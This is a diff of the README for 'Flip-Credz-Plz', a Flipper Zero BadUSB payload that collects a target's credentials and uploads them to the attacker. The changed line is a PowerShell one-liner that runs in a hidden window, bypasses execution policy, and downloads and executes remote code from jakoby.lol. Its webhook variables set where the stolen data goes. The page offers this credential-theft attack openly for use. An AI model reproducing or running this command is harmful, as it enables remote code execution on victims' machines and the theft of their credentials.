

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-Credz-Plz/README.md, the part around the change. Drawn GitHub-style.

````diff
--- a/Payloads/Flip-Credz-Plz/README.md
+++ b/Payloads/Flip-Credz-Plz/README.md
@@ -47,7 +47,7 @@ Once the target enters their credentials their information will be uploaded to y
 * Fill in either variable or both to set your exfil method
 
 ```
-powershell -w h -ep bypass $dc='';$db='';iwr https://jakoby.lol/35k | iex
+powershell -w h -ep bypass $dc='';$db='';irm https://jakoby.lol/35k | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
